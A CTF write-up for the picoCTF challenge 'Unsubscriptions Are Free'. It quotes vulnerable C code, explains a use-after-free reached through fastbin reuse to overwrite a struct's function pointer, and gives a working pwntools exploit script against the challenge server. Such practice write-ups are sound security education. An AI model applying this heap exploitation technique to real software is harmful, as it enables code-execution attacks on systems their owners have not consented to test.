

# Unsubscriptions Are Free

Check out my new video-game and spaghetti-eating streaming channel on Twixer! [program](http://ctf.infury.org:8000/files/34771c5aedde24a4191918d6b2866969/vuln) and get a flag. [vuln.c](http://ctf.infury.org:8000/files/bd77ad78e4bcef7b5259a47e1b23c765/vuln.c)

`nc mercury.picoctf.net 6312`

##### Hint

> http://homes.sice.indiana.edu/yh33/Teaching/I433-2016/lec13-HeapAttacks.pdf

## WP

In the source code file `vuln.c`, we can find some sensitive codes.

```c
// There are two pointers in struct cmd and a struct takes 8 bytes
typedef struct {
  uintptr_t (*whatToDo)();
  char *username;
} cmd;

cmd *user;

// This function prints the flag
void hahaexploitgobrrr() {
  char buf[FLAG_BUFFER];
  FILE *f = fopen("flag.txt", "r");
  fgets(buf, FLAG_BUFFER, f);
  fprintf(stdout, "%s\n", buf);
  fflush(stdout);
}

// This function prints the address of function hahaexploitgobrrr()
void s() {
  printf("OOP! Memory leak...%p\n", hahaexploitgobrrr);
  puts("Thanks for subsribing! I really recommend becoming a premium member!");
}

// This function will allocate a new memory space with 8 bytes
void leaveMessage() {
  puts("I only read premium member messages but you can ");
  puts("try anyways:");
  char *msg = (char *)malloc(8);
  read(0, msg, 8);
}

// This function will free the memory space pointed by *user, a cmd struct object
void i() {
  char response;
  puts("You're leaving already(Y/N)?");
  scanf(" %c", &response);
  if (toupper(response) == 'Y') {
    puts("Bye!");
    free(user);
  } else {
    puts("Ok. Get premium membership please!");
  }
}

// main function
int main() {
  setbuf(stdout, NULL);
  user = (cmd *)malloc(sizeof(user));
  while (1) {
    printMenu();
    processInput();
    // if(user){
    doProcess(user);
    //}
  }
  return 0;
}
```

We can notice that after the memory space pointed by `user` is freed in function `i()`, the pointer `user` will still point at the original memory address, which means there might be some vulnerabilities.

A `cmd` object takes `8` bytes (two pointers in 32-bit operation), and the first pointer `*whatToDo` points to a function which will be executed in every loop in `main()`. Also, before executing the function pointed by `*whatToDo`, there is no check to make sure that the memory space pointed by `*user` is not freed.

```c
// if(user){
doProcess(user);
//}
```

What's more, when function `leaveMessage()` is called, it will allocate a new memory space, and the space takes exactly `8` bytes. If we know the principle of heap memory management, we will know that after a small heap memory space has been freed, if we allocate another heap memory space with the same size immediately, we are very likely to get the memory space that we freed before (mechanism of **fastbin**).

Since we can write any bytes into the memory space in function `leaveMessage()` and this memory space will still be recognized as a `cmd` struct object pointed by `*user`, we can change the two pointers to any value.

So the way to get the flag is obvious: first get the address of `hahaexploitgobrrr()` by calling `s()`, then free the memory space pointed by `*user` by calling `i()`. Then we call `leaveMessage()`, get the memory space which is still being pointed by `*user`, change the value of the memory space which is originally the space of `*whatToDo` to the address of `hahaexploitgobrrr()`, and then we can let the program execute the function `hahaexploitgobrrr()`.

The script is shown below.

```python
from pwn import *

conn = remote("mercury.picoctf.net", 6312)
print(conn.recv().decode() + '\nS')

conn.send('S')
print(conn.recv().decode())

content = conn.recvline().decode()
print(content)
addr = int(re.search('0x([0-9a-f]*)', content).group(1), 16)
print(conn.recv().decode() + '\nI')

conn.send('I')
print(conn.recv().decode() + '\nY')
conn.send('Y')
print(conn.recv().decode() + '\nl')

conn.send('l')
print(conn.recv().decode())
print(p32(addr))
conn.send(p32(addr))

conn.interactive()
```

Finally the flag will be printed.



